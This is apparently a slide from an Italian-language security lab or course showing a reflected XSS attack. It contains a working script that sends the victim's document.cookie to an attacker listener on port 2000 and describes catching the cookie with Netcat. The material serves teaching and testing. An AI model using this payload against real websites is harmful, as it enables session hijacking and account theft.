

<script>var xhr = new XMLHttpRequest(); xhr.open('GET', `http://localhost:2000/${document.cookie}`, false); xhr.send(null);</script>
Attacco XSS - Reflected

Attestata la vulnerabilità, implementiamo lo script in alto a destra nella sezione apposita del sito vulnerabile per ottenere il suo cookie di sessione.

Prima di avviare lo script, mettiamo in ascolto la macchina attaccante con l‘ausilio di Netcat sulla porta 2000, ovvero la porta di riferimento per la macchina vittima, come nella figura a destra in basso.